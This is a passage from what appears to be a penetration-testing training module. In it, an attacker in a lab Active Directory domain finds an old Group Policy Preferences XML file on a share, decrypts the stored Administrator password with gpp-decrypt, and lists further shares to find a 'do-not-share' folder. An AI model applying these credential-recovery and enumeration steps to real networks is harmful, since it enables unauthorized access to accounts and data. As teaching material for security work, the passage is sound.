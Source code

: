 ```
          neverExpires="0"
          acctDisabled="0"
          userName="Administrator (built-in)"
          expires="2016-02-10" />
  </User>
</Groups>
```

> Listing 70 - Checking contents of old-policy-backup.xml file

Due to the naming of the folder and the name of the file itself, it appears that this is an older domain policy file. This is a common artifact on domain shares as system administrators often forget them when implementing new policies. In this case, the XML file describes an old policy (helpful for learning more about the current policies) and an encrypted password for the local built-in Administrator account. The encrypted password could be extremely valuable for us.

Historically, system administrators often changed local workstation passwords through [_Group Policy Preferences_](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922\(v=ws.11\)) (GPP).

However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on [_MSDN_](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2). We can use this key to decrypt these encrypted passwords. In this case, we'll use the [**gpp-decrypt**](https://www.kali.org/tools/gpp-decrypt/) ruby script in Kali Linux that decrypts a given GPP encrypted string:

```
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```

> Listing 71 - Using gpp-decrypt to decrypt the password

As indicated in Listing 71, we successfully decrypted the password, and we will make a note of this in our documentation.

Listing 67 also revealed other shares of potential interest. Let's check out **docshare** on **FILES04.corp.com** (which is not a default share).

```
PS C:\Tools> ls \\FILES04\docshare

    Directory: \\FILES04\docshare

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   2:02 AM                docs
```

> Listing 72 - Listing the contents of docsare

Farther in the folder structure, we find a **do-not-share** folder that contains **start-email.txt**:

```
PS C:\Tools> ls \\FILES04\docshare\docs\do-not-share

    Directory: \\FILES04\docshare\docs\do-not-share

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/21/2022   2:02 AM           1142 start-email.txt
```

